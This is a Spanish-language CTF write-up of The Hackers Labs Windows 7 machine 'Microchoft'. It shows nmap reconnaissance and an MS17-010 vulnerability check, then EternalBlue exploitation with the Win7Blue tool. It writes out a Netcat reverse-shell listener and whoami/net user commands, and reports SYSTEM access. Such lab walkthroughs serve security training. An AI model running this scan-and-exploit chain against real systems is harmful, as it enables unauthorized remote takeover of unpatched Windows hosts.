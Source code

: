 ```yaml
---
title: 'The Hackers Labs: Microchoft'
titleIcon: '/thl.png'
tags: [ 'Windows', 'SMB', 'Exploit', 'Eternalblue' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Windows' ]
description: |
  Microchoft es una máquina de nivel principiante donde nos enfrentamos a un sistema Windows 7 vulnerable. A través de un escaneo SMB descubrimos que es susceptible a EternalBlue. Sin usar Metasploit, logramos explotar la vulnerabilidad manualmente con herramientas externas y obtuvimos acceso como SYSTEM.
---
```


<font size='5'>Microchoft</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

🔗 **Link de la máquina:** [https://labs.thehackerslabs.com/machine/55](https://labs.thehackerslabs.com/machine/55)

![Grillo](/thl/principiante/microchoft/microchoft.png)

# Reconocimiento

Comenzamos con un escaneo de puertos para descubrir los servicios accesibles desde la red. Para ello, usamos `nmap` con opciones que nos permiten obtener resultados detallados y eficientes:

```bash
sudo nmap -p- --open -sS -sCV --min-rate 5000 -Pn -n -oN microchoft.txt 192.168.100.5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-11 13:55 -03
Nmap scan report for 192.168.100.5
Host is up (0.00098s latency).                                                                                                                                                                                                              
Not shown: 60299 closed tcp ports (reset), 5227 filtered tcp ports (no-response)                                                                                                                                                            
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:6A:58:09 (VMware)
Service Info: Host: MICROCHOFT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-11T16:56:49
|_  start_date: 2025-07-11T16:52:41
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -40m01s, deviation: 1h09m16s, median: -1s
|_nbstat: NetBIOS name: MICROCHOFT, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:6a:58:09 (VMware)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: Microchoft
|   NetBIOS computer name: MICROCHOFT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-11T18:56:49+02:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.21 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 135/tcp (MSRPC)
- 139/tcp (NetBIOS-SSN)
- 445/tcp (Microsoft-DS)  
Se identifica el sistema como **Windows 7 Home Basic SP1**.

---

## Comprobación de Vulnerabilidad

Detectando que el sistema operativo es Windows 7, verificamos si es vulnerable al fallo crítico **MS17-010 (EternalBlue)** utilizando el siguiente script de Nmap:

```bash
sudo nmap -p 445 --script smb-vuln-ms17-010 192.168.100.5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-11 14:17 -03
Nmap scan report for 192.168.100.5
Host is up (0.00047s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:6A:58:09 (VMware)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds
```

### Resultado:

El escaneo confirma que el sistema **es vulnerable** a ejecución remota de código a través de SMBv1.

> Vulnerabilidad: **MS17-010**  
> Estado: **Vulnerable**  
> CVE: **CVE-2017-0143**

---

# Explotación

En lugar de utilizar Metasploit, recurrimos a la herramienta **Win7Blue**, una opción externa que permite explotar EternalBlue manualmente.

🔗 **Link de la herramienta:** [https://github.com/d4t4s3c/Win7Blue](https://github.com/d4t4s3c/Win7Blue)

### 🛠️ Procedimiento:

1. Reconfirmamos la vulnerabilidad con el módulo `scanner`.

![scanner](/thl/principiante/microchoft/win7blue_nmap.png)

2. Determinamos la arquitectura del sistema con `arch`.

![arch](/thl/principiante/microchoft/win7blue_netexec.png)

4. Ejecutamos el exploit de EternalBlue.

Primeramente debemos ponernos en modo escucha para establecer una shell inversa en Netcat:

```bash
nc -lvnp 4444
```

![exploit](/thl/principiante/microchoft/win7blue_exploit.png)

---

## 🔐 Fase 4 - Escalada de Privilegios

Ya dentro del sistema, revisamos los usuarios y comprobamos que tenemos acceso con permisos elevados:

```bash
whoami
net user
```

Obtenemos acceso como `NT AUTHORITY\SYSTEM`, lo que nos otorga control total del sistema.

![revshell](/thl/principiante/microchoft/win7blue_revshell.png)

---

# 🎉 ¡Root conseguido!

La máquina **Microchoft** fue comprometida con éxito mediante una explotación manual de EternalBlue sin hacer uso de Metasploit. Esta experiencia demuestra cómo es posible ejecutar un ataque completo utilizando herramientas independientes y técnicas más discretas.

### Flag User

![user](/thl/principiante/microchoft/win7blue_user.png)

### Flag Root

![root](/thl/principiante/microchoft/win7blue_root.png)

Hemos completado exitosamente la máquina **Microchoft**  de TheHackersLabs.

